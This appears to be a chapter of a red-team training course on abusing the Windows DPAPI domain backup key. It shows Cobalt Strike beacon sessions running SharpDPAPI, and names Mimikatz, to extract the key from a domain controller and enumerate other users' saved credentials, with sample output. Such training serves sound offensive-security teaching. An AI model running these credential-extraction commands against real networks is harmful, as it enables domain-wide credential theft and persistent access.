 
As we've seen in previous chapters there are some secrets, like those stored in the [Windows Credential Manager](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=677fb3f7bc8c65b5c600bcd8), that are protected using the Data Protection API (DPAPI).  The secrets themselves are encrypted with a randomly generated AES key, called a masterkey, which itself is encrypted using DPAPI.  The private key that DPAPI uses to encrypt the masterkey is derived from the user's password.  This, in theory, means only that user can decrypt the key and access their saved secrets.  However, when the user changes their password (or it's changed by an administrator), DPAPI can no longer generate keys to decrypt their masterkey.

To that end, a copy of the user's masterkey is encrypted with a "backup key" that is stored in Active Directory.  This allows a user to decrypt the backup copy of their masterkey, and then re-encrypt a new copy using a key derived from their updated password.  From an adversarial perspective, obtaining this backup key ultimately allows them to decrypt all DPAPI blobs for any user in the domain, which may be useful for maintaining access to sensitive credentials. 

The backup key is randomly generated during the initial creation of the domain, and like the krbtgt secret, is never automatically changed.  However, there is also no officially supported way of changing it.  It can be extracted from a domain controller (by a domain administrator) using the [BackupKey Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-bkrp/90b08be4-5175-4177-b4ce-d920d797e3a8).  This is built into tools such as Mimikatz's `lsadump::backupkeys` command and SharpDPAPI's `backupkey` command.

```powershell
beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe backupkey

[*] Action: Retrieve domain DPAPI backup key

[*] Using current domain controller  : lon-dc-1.contoso.com
[*] Preferred backupkey Guid         : 12c95677-bb3d-4932-aab9-1e89c1dd005d
[*] Full preferred backupKeyName     : G$BCKUPKEY_12c95677-bb3d-4932-aab9-1e89c1dd005d
[*] Key                              : HvG1s[...snip...]lXQns=
```

With local admin access to a computer, an adversary can enumerate saved credentials for all users.  The example below how a session running in high-integrity as _dyork_ can enumerate credentials stored by _pchilds_.

```powershell
beacon> getuid
[*] You are CONTOSO\dyork (admin)

beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials

[*] Action: User DPAPI Credential Triage

[*] Triaging Credentials for ALL users

Folder       : C:\Users\pchilds\AppData\Local\Microsoft\Credentials\

  CredFile           : 9CAEEF854B7702E986B47C751DFE9AD2

    guidMasterKey    : {120b3a8a-683d-4db8-8f13-e4c466949bd2}
    size             : 396
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Local Credential Data

    [X] MasterKey GUID not in cache: {120b3a8a-683d-4db8-8f13-e4c466949bd2}
```